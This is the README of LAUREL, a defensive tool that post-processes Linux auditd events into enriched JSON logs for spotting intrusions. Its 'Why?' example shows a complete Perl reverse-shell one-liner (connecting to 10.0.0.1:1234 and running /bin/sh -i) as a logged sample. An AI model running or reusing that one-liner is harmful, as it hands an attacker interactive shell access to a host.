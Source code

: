 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ that generates useful, enriched JSON-based audit logs suitable for modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.7.1).

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…_LAUREL_ turns them into JSON logs where the mess that attackers/penetration testers/red teamers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. Events are enriched with useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Documentation

Configuration and operational details are described in the [laurel(8)](man/laurel.8.md) manual page.
Details about the log format and rationales can be found in the [laurel-about(7)](man/laurel-about.7.md) manual page. The [laurel-audit-rules(7)](man/laurel-audit-rules.7.md) page contains advice and examples for configuring audit rules useful for detecting attackers' tactics.

The [_LAUREL_ installation instructions](INSTALL.md) contain instructions on how to build _LAUREL_ from source and how to install and configure it.

We developed _LAUREL_ because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) document for details.

## See also

- [ansible-auditd-laurel](https://github.com/certeu/ansible-auditd-laurel/), an Ansible role to deploy _auditd_ + _laurel_, by @0xFustang / CERT-EU

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
